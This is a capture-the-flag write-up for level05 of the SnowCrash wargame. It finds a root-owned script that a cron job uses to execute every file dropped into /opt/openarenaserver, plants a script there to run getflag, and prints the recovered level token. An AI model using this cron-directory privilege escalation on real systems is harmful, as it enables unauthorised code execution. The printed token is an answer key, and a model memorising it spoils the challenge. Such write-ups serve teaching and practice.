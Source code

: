 1. **Searching for files**

    Using the `find` command, we found a file for the user `flag05`:
    ```bash
    level05@SnowCrash:~$ find / -user flag05 2>/dev/null
    /usr/sbin/openarenaserver
    level05@SnowCrash:~$ file /rofs/usr/sbin/openarenaserver 
    /rofs/usr/sbin/openarenaserver: regular file, no read permission
    level05@SnowCrash:~$ ls -la /usr/sbin/openarenaserver 
    -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
    ```
    Permissions: -rwxr-x---+
    The `+` sign at the end of the permissions in `ls -la` indicates that the file has additional ACLs configured beyond the standard permissions.

2. **Checking ACLs**

    ```bash
    level05@SnowCrash:~$ getfacl /usr/sbin/openarenaserver 
    getfacl: Removing leading '/' from absolute path names
    # file: usr/sbin/openarenaserver
    # owner: flag05
    # group: flag05
    user::rwx
    user:level05:r--
    group::r-x
    mask::r-x
    other::---
    ``` 
    When you see `user:level05:r--` in the output of `getfacl`, it means that the user level05 has been specifically granted read permission for the file, even though the standard permissions would not allow it.

3. **Exploitation**

    Let's try to see what this file does.
    ```bash
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
    done
    ```
    This script:
    Iterates through all files in the directory `/opt/openarenaserver/`
    For each file:
    - Sets a time execution limit of 5 seconds `(ulimit -t 5)`
    - Executes the file as a bash script in debug mode `(bash -x)`
    - Deletes the file after execution `(rm -f)`

    This suggests that there might be a Cron job that executes all files inside this folder. To exploit this, we will create a malicious script that runs `getflag`:
    ```bash
    echo "getflag > /tmp/flag05" > /opt/openarenaserver/exploit.sh
    chmod +x /opt/openarenaserver/exploit.sh
    ``` 
    We wait for the cron job to execute and then check the contents of the `flag05` file:
    ```bash
    level05@SnowCrash:~$ cat /tmp/flag05
    Check flag.Here is your token : viuaaale9huek52boumoomioc
    ```
